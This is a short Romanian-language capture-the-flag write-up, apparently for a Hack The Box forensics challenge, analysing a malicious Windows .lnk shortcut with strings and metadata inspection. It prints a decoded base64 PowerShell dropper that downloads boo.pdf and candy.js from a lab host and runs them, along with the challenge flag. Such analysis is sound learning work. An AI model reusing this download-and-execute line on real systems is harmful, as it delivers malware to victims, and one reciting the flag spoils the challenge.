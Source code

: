 Sarcina:
```
While going through your Halloween treats, a strange message appears: "Trick or Treat?" Curious, you click, and suddenly a mysterious .lnk file appears on your desktop.
Now it's up to you to investigate this spooky shortcut and find out if it’s just a trick—or if it’s hiding a darker secret.
```
Avem doar un fișier cu o extensie de `.ink`. Sa verificam ce conține acest fișier cu un string:
```
strings trick_or_treat.lnk 
/C:\
Windows
System32
WindowsPowerShell
v1.0
powershell.exe
%SystemRoot%\System32\shell32.dll
1SPS
```
Nimic util să verificam și metadatele:

![alt text](../image//TSH_1.png)

În metadate avem suspect dar la moment nu înțelegem că este codat:
```
aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=
```
După ce a fost decodat vedem și flagul în plain-text:
```
echo "aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=" | base64 -d
iwr -Uri https://trickortreat.htb/boo.pdf -OutFile $env:TEMP\ Dropbox boo.pdf;$flag='HTB{tr1ck_0r_tr34t_g03s_wr0ng}';Start-Process $env:TEMP\ Dropbox boo.pdf;Start-Sleep -s 5;iwr -Uri https://trickortreat.htb/candy.js -OutFile $env:TEMP\cacndy.js;Start-Process $env:TEMP\candy.js;Exit
```
Flagul este: `HTB{tr1ck_0r_tr34t_g03s_wr0ng}`

